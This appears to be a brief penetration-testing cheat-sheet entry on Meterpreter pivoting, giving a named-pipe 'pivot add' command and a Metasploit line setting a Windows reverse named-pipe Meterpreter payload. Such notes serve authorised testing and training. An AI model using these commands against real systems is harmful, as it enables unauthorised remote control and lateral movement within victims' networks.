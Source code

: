 # Meterpreter

#### Pivoting in Meterpreter
`pivot add -t pip -l PIPEHOST -n PIPENAME -a <x86 or x64> -p windows`

`set payload windows/meterpreter/reverse_named_pipe`
